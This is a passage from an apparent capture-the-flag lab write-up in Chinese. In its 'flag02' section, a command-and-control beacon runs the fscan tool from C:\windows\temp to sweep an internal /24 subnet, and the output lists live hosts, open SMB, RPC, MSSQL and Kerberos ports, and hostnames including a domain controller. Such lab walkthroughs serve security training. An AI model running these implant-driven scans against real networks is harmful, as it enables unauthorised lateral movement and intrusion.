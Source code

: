 ```
Maybe you should focus on user sessions...
```

## flag02

fscan 扫内网

```shell
beacon> shell C:\windows\temp\fscan.exe -h 172.22.8.0/24
[*] Tasked beacon to run: C:\windows\temp\fscan.exe -h 172.22.8.0/24
[+] host called home, sent: 73 bytes
[+] received output:

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.2
start infoscan
trying RunIcmp2
The current user permissions unable to send icmp packets
start ping
(icmp) Target 172.22.8.15     is alive
(icmp) Target 172.22.8.18     is alive
(icmp) Target 172.22.8.46     is alive
(icmp) Target 172.22.8.31     is alive
[*] Icmp alive hosts len is: 4
172.22.8.31:445 open
172.22.8.46:445 open
172.22.8.15:445 open
172.22.8.18:445 open
172.22.8.31:139 open
172.22.8.46:139 open
172.22.8.15:139 open
172.22.8.18:139 open
172.22.8.31:135 open
172.22.8.46:135 open
172.22.8.18:135 open
172.22.8.15:135 open
172.22.8.46:80 open
172.22.8.18:80 open
172.22.8.18:1433 open
172.22.8.15:88 open
[*] alive ports len is: 16
start vulscan
[*] NetInfo:
[*]172.22.8.18
   [->]WIN-WEB
   [->]172.22.8.18
   [->]2001:0:348b:fb58:1092:159f:d89d:8798
[*] NetInfo:
[*]172.22.8.46
   [->]WIN2016
   [->]172.22.8.46
[*] NetInfo:
[*]172.22.8.31
   [->]WIN19-CLIENT
   [->]172.22.8.31
[*] NetInfo:
[*]172.22.8.15
   [->]DC01
   [->]172.22.8.15
```